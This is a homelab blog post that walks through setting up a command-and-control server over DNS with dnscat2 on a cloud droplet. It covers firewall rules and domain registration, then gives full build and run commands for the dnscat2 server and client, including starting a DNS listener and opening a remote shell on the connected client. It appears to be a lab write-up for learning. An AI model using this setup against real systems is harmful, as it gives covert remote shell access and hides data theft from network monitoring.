 ```yaml
---
title: C2 over DNS
categories: [homelab]
tags: [homelab,dns]     # TAG names should always be lowercase
---
```

[main](/posts/lab_main)

# Command and Control server over DNS
Sources:
[TryHackMe | DNS in detail](https://tryhackme.com/room/dnsindetail),
[TryHackMe | DNS Manipulation](https://tryhackme.com/room/dnsmanipulation),
[TryHackMe | Data Exfiltration](https://tryhackme.com/room/dataxexfilt).
(These sources explain ways to exfiltrate data over DNS using python and iodine)

Setup your own authoritative DNS server using AWS: [STOK's video](https://www.youtube.com/watch?v=p8wbebEgtDk) 
	
You can use `iodine`, `dnscat2`, and `cobalt strike` for c2 over DNS. I am using dnscat2 on a digitaloceans droplet.

## DNS server setup using digitaloceans
1. Spin up a droplet (2GB memory) - You'll get a public ip address
2. Connect to the server. On Windows, you can use the Terminal app with WSL(Ubuntu or Kali) on Windows. You can SSH into the server and continue with the following steps.
3. You'll get a root user access. Create a new user on the server.
4. Take a snapshot of the droplet
5. Setup the firewall rules for the droplet. All traffic in and out shall be blocked by default. So, you have to manually enable them for your droplet. Manage > Networking > Firewalls

### Firewall rules:
![Inbound rules](/assets/img/inbound_do_rules.png)
![Outbound rules](/assets/img/outbound_do_rules.png)

## Get a Domain Name
- I went with hostgator. You can find cheap(<$1) domain names like the `.site` TLD.
- Other popular options include namecheap and godaddy.
- You can get a free subdomain from EU.org. You can donate to `nic.eu.org` later if you can't afford a domain name now.
- "The main goal of EU.org is to provide free subdomain registration to users or non-profit organizations who cannot afford the fees demanded by some NICs" - [nic.eu.org](https://nic.eu.org/)
- The only drawback is that it would take about a month for approval. (When asked for nameservers, just point it to the digitalocean nameservers after you setup the domain management)

## Domain management using digitaloceans
[DNS Propagation Checker - Global DNS Testing Tool (whatsmydns.net)](https://www.whatsmydns.net/)
- Configure the nameservers to digitalocean nameservers at your domain provider account.
- Add a domain to your droplet

> While making records, make sure that you keep the ttl low till things work (Initially, I chose one-tenth value. Now they are back to defaults).
{: .prompt-info}

More info: [How to choose DNS TTL values - APNIC Blog](https://blog.apnic.net/2019/09/27/how-to-choose-dns-ttl-values/)

Set the Records as follows:

![DNS records](/assets/img/dns_records_do.png)

## dnscat2 setup
> Take the server snapshot before you proceed
```bash
# on client
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client/
sudo apt install gcc make
sudo make
# Also, you can wget from the c2 server
# You can use the following command for a directory:
	# wget --no-parent -r http://example.com/DIRECTORY
```

> Installation on the server - as a regular user (not as a root):
{: .prompt-warning}

```bash
# install ruby (or "ruby-dev" if you get an error: `require` - loaderror) and gem
git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
sudo gem install bundler
sudo chown -R example_user /var/lib/gems
sudo apt install ruby-dev make gcc
bundle install
sudo ruby ./dnscat2.rb example.com # your domain name
dnscat2> 
	start --dns port=53531,domain=example.com # you'll get the secret value

# on client
sudo ./dnscat --dns port=53531,server=example.com --secret=<secret_value>
# use the ip address instead of example.com if your domain name is not resolving 

# on server
dnscat2>
	windows
	window -i 1 # session number of the connection
	help # get shell
	shell
	# ctr+z to escape
	windows # list
	window -i 2 # go to the sh window
	
# you can run multiple servers on multiple ports using dnscat2. The client can send different packets to different ports
```
learn more from: [dnscat2](https://github.com/iagox86/dnscat2.git)

Network traffic:
![dns](/assets/img/dnscat2_traffic_blur.png)